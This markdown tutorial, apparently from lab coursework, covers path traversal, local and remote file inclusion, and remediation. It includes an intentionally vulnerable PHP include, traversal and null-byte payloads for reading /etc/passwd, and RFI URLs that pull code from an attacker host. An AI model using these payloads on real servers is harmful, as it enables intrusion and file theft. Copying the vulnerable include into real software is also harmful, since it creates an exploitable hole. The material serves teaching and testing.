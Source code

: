 # File Inclusion
|-> **Local File Inclusion (LFI)** <br>
|-> **Remote File Inclusion (RFI)** <br>
|-> **Directory Traversal**

<p align="center">
  <img src="https://github.com/PranjalBasak/Documentation/assets/66166653/03a1db1f-9669-4348-9c2b-e9b3056ad3fb" alt="Anatomy of a Get Request to Access a File">
</p>
<p align="center">
  <em>Fig: Anatomy of a Get Request to Access a File</em>
</p>

<p align="center">
  <img src="https://github.com/PranjalBasak/Documentation/assets/66166653/14628d7f-7f11-463f-bb40-ee6bf8154c35" alt="How A Request Works">
</p>
<p align="center">
  <em>Fig: How A Request Works</em>
</p>

**Cause:** 
<br> The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them.
<br>
**Risk:** 
<br> An attacker can access any file in the web server or the operating system including source code using the vulnerablity. 
<br> They can even perform RCE by uploading their own files to the server.

## Path Traversal
AKA _**Directory Traversal/Dot-Dot-Slash Attack**_ <br>
This attack allows a hacker unauthorized access to operating system filee outside the web application's root directory.

In PHP, you can use the [`file_get_contents`](https://www.php.net/manual/en/function.file-get-contents.php) to read the content of a file.

**Example:** `http://webapp.thm/get.php?file=../../../../etc/passwd`

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/eab139b1-d196-46eb-87f7-952d3f212e60)

## Local File Inclusion (LFI)
LFI is a vulnerability which allows attackers to retrive local files hosted in a web server and even execute malicious codes.

LFI can occur in web applications written in PHP, ASP, JSP, or even Node.js. In PHP, some functions contribute to the vulnerability of web applications including `include`, `require`, `include_once`, and `require_once`.

### Case 1: 
Let's say we have an web app which can switch between English and Arabian language. The PHP code is written as follows:
```php
<?PHP 
	include($_GET["lang"]);
?>
```

THE PHP code uses a GET request via the URL parameter `lang` to include the file of the page. We should have two kinds of requests:
- `http://webapp.thm/index.php?lang=EN.php`
- `http://webapp.thm/index.php?lang=AR.php`
But a malicious actor can read any file from the server using the vulnerable parameter `lang`, if there is no input validation and no directory specified in the `include` function. So an attacker can do:
`http://webapp.thm/get.php?file=/etc/passwd`

### Case 2: Bypass Invalid Extension
Use Null Bytes if the PHP code is configured in such a way that it will only accept a certain extension (such as only .php). In this case, a sample payload would be:
`http://webapp.thm/index.php?lang=../../../../etc/passwd%00`
Null byte will tell the PHP code to ignore anything after the null byte including the extension.

**NOTE:** the %00 trick is fixed and not working with PHP 5.3.4 and above.

## Case 3: Bypass A Filtered Keyword (`/etc/passwd`)
**Technique 1:** Use Null Bytes `%00`

**Technique 2:** Use `/.` in front of filtered keyword

## Case 4: Bypass A Filtered Keyword (Replaced `../` with Empty String)
![image](https://github.com/PranjalBasak/Documentation/assets/66166653/3f5b7720-b831-4e08-99b7-fe58342cc5f5)

## Case 5: Directory Specified
Considering the directory `languages` is specified,
Payload: `?lang=languages/../../../../../etc/passwd.`

## Remote File Inclusion (RFI)
RFI is an attack which allows an attacker to include remote files to the web application and execute malicious scripts in the server.

In RFI, one can inject an external URL into `include` function. But one requirement is that `allow_url_fopen` option needs to be `on`. RFI is deadlier than LFI since it allows RCE on the server. Other consequences include:
- Sensitive Information Disclosure
- Cross-Site Scripting (XSS)
- Denial of Service (DoS)

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/9ed4aa3d-d153-403e-8f01-abc62626637e)
 Example Payload: 
 - `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`
 -  `http://10.10.233.114/playground.php?file=http://10.17.42.103:4444/46635.py`

**Running A Simple HTTP Server Using Python3:** `python3 -m http.server 9000`

### Remediation

- Keep system and services, including web application frameworks, updated with the latest version.
- Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
- A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
- Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as `allow_url_fopen` on and `allow_url_include`.
- Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
- Never trust user input, and make sure to implement proper input validation against file inclusion.
- Implement whitelisting for file names and locations as well as blacklisting.

### Steps for testing for LFI
Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!
Enter a valid input to see how the web server behaves.
Enter invalid inputs, including special characters and common file names.
Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
Understand the input validation and if there are any filters!
Try the inject a valid entry to read sensitive files
